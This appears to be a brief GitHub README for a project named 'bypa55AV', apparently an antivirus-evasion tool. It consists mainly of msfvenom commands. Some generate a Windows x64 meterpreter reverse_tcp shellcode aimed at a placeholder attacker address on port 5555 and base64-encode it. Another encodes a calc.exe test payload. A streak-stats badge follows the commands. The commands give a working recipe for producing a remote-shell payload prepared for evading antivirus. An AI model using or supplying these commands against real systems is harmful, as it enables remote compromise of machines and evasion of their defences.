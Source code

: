 # bypa55AV
// msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=5555 -f raw > rev.raw     
// base64 -w 0 -i rev.raw > rev.bs64     
// cat rev.bs64     
 
msfvenom -p windows/x64/exec CMD=calc.exe -f raw |base64               


<div align="center">  
  <img  src="https://github-readme-streak-stats.herokuapp.com?user=xiaotsai&theme=onedark&date_format=M%20j%5B%2C%20Y%5D" />
</div>
------------------------
